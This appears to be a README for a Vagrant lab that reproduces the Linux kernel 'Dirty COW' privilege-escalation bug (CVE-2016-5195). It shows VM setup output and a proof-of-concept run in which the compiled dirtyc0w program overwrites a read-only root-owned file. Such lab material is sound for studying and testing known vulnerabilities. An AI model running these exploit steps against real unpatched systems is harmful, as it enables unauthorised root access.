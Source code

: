 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

{{{
	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."
}}}

## vagrant up

{{{
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
}}}

## vagrant ssh

{{{
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
}}}

 = POC

 == dirtyc0w == 

{{{
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
}}}

# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195

